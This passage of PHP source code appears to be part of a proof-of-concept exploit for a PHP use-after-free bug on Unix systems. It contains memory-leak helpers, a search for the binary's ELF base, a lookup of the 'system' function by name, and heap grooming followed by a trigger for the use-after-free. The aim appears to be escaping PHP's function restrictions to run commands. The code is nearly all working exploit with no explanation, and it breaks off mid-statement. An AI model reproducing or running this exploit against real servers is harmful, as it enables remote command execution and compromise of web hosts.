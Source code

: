 ```php
            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
```